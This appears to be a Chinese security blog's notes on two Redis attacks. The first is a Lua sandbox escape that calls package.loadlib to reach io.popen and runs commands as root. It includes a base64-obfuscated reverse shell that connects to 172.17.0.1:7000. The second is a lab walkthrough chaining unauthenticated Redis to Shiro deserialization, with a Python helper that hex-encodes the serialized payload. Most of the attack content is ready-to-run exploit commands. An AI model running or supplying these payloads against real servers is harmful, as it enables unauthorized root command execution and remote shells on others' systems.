 # Redis Lua沙盒绕过命令执行

>借助Lua沙箱中遗留的变量`package`的`loadlib`函数来加载动态链接库`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`里的导出函数`luaopen_io`,在Lua中执行这个导出函数,即可获得`io`库,再使用其执行命令

```
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
"uid=0(root) gid=0(root) groups=0(root)\n"

127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("echo c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE3LjAuMS83MDAwIDA+JjEK | base64 -d | bash -i", "r"); local res = f:read("*a"); f:close(); return res' 0
```

![](https://img.mi3aka.eu.org/2022/08/8b97ccdf972f11fa444193aefc127c16.png)

# Redis未授权到shiro反序列化

[https://xz.aliyun.com/t/11198](https://xz.aliyun.com/t/11198)

```
docker pull redis:3.2
docker run -dit -p 6379:6379 redis:3.2
git clone https://github.com/alexxiyang/shiro-redis-spring-boot-tutorial.git
运行ShiroRedisSpringBootTutorialApplication.java
```

![](https://img.mi3aka.eu.org/2022/08/8045107933ec8e68ad0e58ef9a167f2f.png)

![](https://img.mi3aka.eu.org/2022/08/0542ef5c27f797a27ac297516cf2b8a3.png)

`\xac\xed`原始序列化数据开头,尝试利用redis中的session进行反序列化攻击

![](https://img.mi3aka.eu.org/2022/08/dec200f40d2dab5aabb802c811131d3e.png)

利用脚本将`raw.txt`转换成`\x00`的形式

>如果直接print(raw)会直接输出`\n\r`等字符,破坏利用链

```python
with open('raw.txt','rb') as f:
    raw=f.read()
for i in raw:
    print(r'\x',str(hex(i))[2:].zfill(2),end="",sep="")
```

将输出的结果复制到Redis中以Hex格式保存即可,保存后会自动转换

![](https://img.mi3aka.eu.org/2022/08/f3b92533c3be2abe2471027cf2f1fb2e.png)

![](https://img.mi3aka.eu.org/2022/08/00e38a2a7884570ecf5321348fb51473.png)
